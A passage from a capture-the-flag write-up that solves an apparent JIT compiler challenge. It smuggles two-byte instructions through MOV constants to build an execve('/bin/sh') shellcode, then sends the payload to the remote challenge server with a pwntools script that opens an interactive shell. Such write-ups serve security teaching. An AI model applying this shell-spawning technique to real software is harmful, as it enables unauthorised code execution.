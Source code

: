 ### Execve syscall
We'll use 2 byte instructions to perform an `execve(/bin/sh)` syscall. Remember that `eax` no longer points to the data segment, so we'll need to fix it again to prevent segfaults.
```
JMP(００26)
MOV(A, 22614) // push rsi; pop rax
```

Next, we need to get the pointer to `/bin/sh` into `rdi`. We'll do this using `push rsi; pop rdi`.
```
JMP(００28)
MOV(A, 24406) // push rsi; pop rdi
```

Now we'll set rsi and rdx to null.
```
JMP(００30)
MOV(A, 63025) // xor rsi, rsi

JMP(００32)
MOV(A, 53809) // xor rdx, rdx
```

We also need to set rax to `0x3b`, which is the execve syscall number, but remember that once we do this, the 2 byte instructions will break again. If we do it using a regular `MOV` instruction instead of a 2 byte instruction, we can avoid any issues.
```
MOV(A, 59)
```

Finally, perform the syscall.
```
JMP(００35)
MOV(A, 1295) // syscall
```

## Solving the challenge
Whilst this works in the compiler, we need to run it through the remote java interface. Given that we've already got the program in a file, we'll simply send it's contents using pwntools:
```python
#! /usr/bin/env python2
import pwn

def main():
    if pwn.args.REMOTE:
        challenge = pwn.remote("jit.ctfcompetition.com", 1337)
    elif pwn.args.GDB:
        pwn.log.error("DEBUGGING THIS IS HAARDD")
    else:
        challenge = pwn.process("./run.sh")

    with open("input", "r") as input_file:
        payload = input_file.read()

    challenge.sendline(payload)
    challenge.sendline("")

    challenge.interactive()


if __name__ == "__main__":
    main()
```
